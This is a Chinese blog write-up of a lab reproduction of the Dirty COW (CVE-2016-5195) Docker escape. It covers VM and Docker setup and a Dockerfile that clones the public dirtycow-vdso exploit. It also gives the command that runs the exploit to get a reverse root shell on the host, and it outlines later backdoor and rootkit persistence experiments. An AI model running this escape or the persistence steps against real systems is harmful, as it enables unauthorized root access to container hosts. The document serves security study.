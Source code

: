 ```yaml
---
title: CVE-2016-5195 实验 | DirtyCoW与Docker逃逸
category: Sec
---
```


## CVE-2016-5195 实验 | DirtyCoW与Docker逃逸

### 0x00 前述

最近出比赛题用到Docker，于是就想到了脏牛火的那段时间有一个利用它做Docker逃逸的PoC。再一看，发现和`vdso`有关，恰好最近研究溢出也遇到了这个东西（在我的[另一篇博文](http://aptx4869.me/ctf/2017/09/08/Overflow.html)中）。

原作者演示的是`容器中的root用户`提权到`VM中的root用户`；我们这里则在镜像中加入一个普通用户`ubuntu`，演示从`容器中的普通用户`提权到`VM中的root用户`。

### 0x01 环境搭建

**VM**

手头有一个`ubuntu-14.04.4-desktop-amd64.iso`就直接拿来开新的VM了（我用`PoC`验证过是存在脏牛漏洞的）。之前也一直想过这个问题：研究漏洞需要老的内核，官网上好像不好直接下老的。如果恰好没有旧的VM或者镜像，可以考虑装一个新的VM然后做一下内核降级（我没有做），可以参考[这里](http://blog.csdn.net/dl_chenbo/article/details/52400044)。

另外就是更新源的问题。我把`sources.list`换成了上交的源，否则可能会很慢。

**Docker**

Docker的安装可以参考[官方文档](https://docs.docker.com/engine/installation/linux/ubuntu/#/prerequisites)。不过也可以直接把官方文档里的步骤写成下面这个脚本（不保证未来能用）：

```bash
sudo apt-get update

sudo apt-get install -y \
        linux-image-extra-$(uname -r) \
        linux-image-extra-virtual

sudo apt-get install -y \
        apt-transport-https \
        ca-certificates \
        curl \
        software-properties-common

curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -

sudo add-apt-repository \
        "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
        $(lsb_release -cs) \
        stable"

sudo apt-get update
sudo apt-get install -y docker-ce
```

之后似乎非root用户不能用`docker ps`，解决一下：

```bash
sudo groupadd docker
sudo gpasswd -a ${USER} docker
sudo service docker restart
```

退出当前用户重新登陆一下就好。

**Ubuntu Image**

国外仓库下载比较慢，我就直接从国内Docker镜像仓库下载了。感谢国内仓库。

```
docker pull registry.docker-cn.com/library/ubuntu:14.04
```

**docker-compose**

之后需要下载`docker-compose`。我发现官网给出的使用`curl`下载的命令并不好用，下载不稳定时常速度为0。我是在外边用迅雷下完然后拷进去的。下载地址是：

```
https://github.com/docker/compose/releases/download/1.17.1/docker-compose-Linux-x86_64
```

```bash
sudo cp ~/dirtycow/docker-compose-Linux-x86_64 /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```

**Exp**

再把逃逸程序从Github上`clone`下来（其实可以跳过这步，因为后面的`Dockerfile`里有这一步）：

```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.git
```

最后看一下目前的环境：

```
uname -a
    Linux br-virtual-machine 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan22 
    15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

docker -v
    Docker version 17.09.0-ce, build afdb6d4

docker-compose -v
    docker-compose version 1.17.1, build 6d101fb
```

一切就绪。建议到这里对VM做一个快照。

### 0x02 实验

**创建镜像/运行容器**

由于我们使用了国内的Docker仓库，所以也许需要在`Dockerfile`下稍微改动一下。这里同样涉及到更新源的问题。同样地，我在`Dockerfile`把源先给更换成了上海交通大学的源。

所以最终我们实验的`Dockerfile`如下：

```dockerfile
FROM registry.docker-cn.com/library/ubuntu:14.04

RUN mv /etc/apt/sources.list /etc/apt/sources.list.bak

ADD ./sources.list /etc/apt/
RUN apt-get update
RUN apt-get install -y build-essential
RUN apt-get install -y nasm
RUN apt-get install -y git

RUN useradd --create-home ubuntu
WORKDIR /home/ubuntu/
RUN git clone https://github.com/scumjr/dirtycow-vdso.git
RUN chown -R ubuntu:ubuntu /home/ubuntu/dirtycow-vdso

EXPOSE 1234

CMD /bin/bash
```

执行下面的命令来创建并运行容器：

```bash
docker-compose run dirtycow /bin/bash
```

**注意：除了之前的环境搭建外，到目前为止，以上操作均在普通用户权限下进行（我这里的普通用户叫做`br`），也没有任何的`sudo`！**

建议到这里也可以对VM做一个快照。这个Docker逃逸只能做一次，成功后退出`root shell`再次执行攻击时会失败，具体原因我还没有深入了解。

进入以后执行：

```bash
su ubuntu
cd /home/ubuntu/dirtycow-vdso
make
./0xdeadbeef 172.18.0.2:10000
```

由于最后获得的事实上是一个反弹shell，所以要给出反弹的IP和端口。端口可以随意设置，IP可以用`ifconfig`查看。我对Docker的网络机制不了解，以后记得去研究一下。

看一下截图：

![]({{ site.url }}/images/dirtycow/dirtycow-docker-0.png)

我们在VM中以`root`权限创建`/root/flag`并写入

```bash
flag{Welcome_2_the_real_world}
```

![]({{ site.url }}/images/dirtycow/dirtycow-docker-1.png)

下面看一下Docker逃逸成功的效果：

![]({{ site.url }}/images/dirtycow/dirtycow-docker-2.png)

下一步可以考虑把逃逸实验和`Pwn`的实验套在一起进行测试。即，模拟外界攻击者，先通过缓冲区溢出获得容器的普通用户`shell`。然而经过`Docker环境检测`，攻击者发现自己处在一个容器中。于是，攻击者再通过Docker逃逸获取模拟真实服务器的`root shell`。

再下一步，可以做一些`post penetration`工作。在模拟真实服务器上安装后门，维持访问。这一阶段的实验可以分为两个子实验：一是安装简单的后门，如“一句话后门等”；二是安装`rootkit`，这一子实验中又可以对`用户层rootkit`安装和`内核层rootkit`安装分别进行测试。

今天先到这里，日后把后几个实验补上。

### 0x03 原理

时间所限，暂时略去不表。未来补上。

### 0x04 参考

- [脏牛漏洞-Docker逃逸POC(dirtycow-vdso)代码分析](http://blog.csdn.net/enjoy5512/article/details/53196047)
- [【技术分享】利用Dirty Cow实现docker逃逸（附演示视频）](http://bobao.360.cn/learning/detail/3168.html)
- [github: scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)
- [github: gebl/dirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)